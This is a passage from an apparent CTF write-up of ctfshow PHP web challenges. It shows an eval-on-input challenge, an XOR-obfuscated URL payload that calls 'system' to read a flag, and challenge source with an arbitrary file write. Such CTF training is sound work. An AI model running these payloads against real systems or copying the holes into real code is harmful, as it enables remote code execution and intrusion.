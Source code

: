 ```
    @eval($code);
}
else{
    highlight_file(__FILE__);
}

function get_ctfshow_fl0g(){
    echo file_get_contents("flag.php");
}
```

无参rce

```
/?code=("%08%02%08%09%05%0d"^"%7b%7b%7b%7d%60%60")("%09%01%03%01%06%0c%01%07%01%0b%08%0b"^"%7d%60%60%21%60%60%60%60%2f%7b%60%7b");
```

![image-20221006160657677](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210061606754.png?x-oss-process=hzy)

# web149

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-19 04:34:40

*/


error_reporting(0);
highlight_file(__FILE__);

$files = scandir('./'); 
foreach($files as $file) {
    if(is_file($file)){
        if ($file !== "index.php") {
            unlink($file);
        }
    }
}

file_put_contents($_GET['ctf'], $_POST['show']);

$files = scandir('./'); 
foreach($files as $file) {
    if(is_file($file)){
        if ($file !== "index.php") {
            unlink($file);
        }
    }
}
```
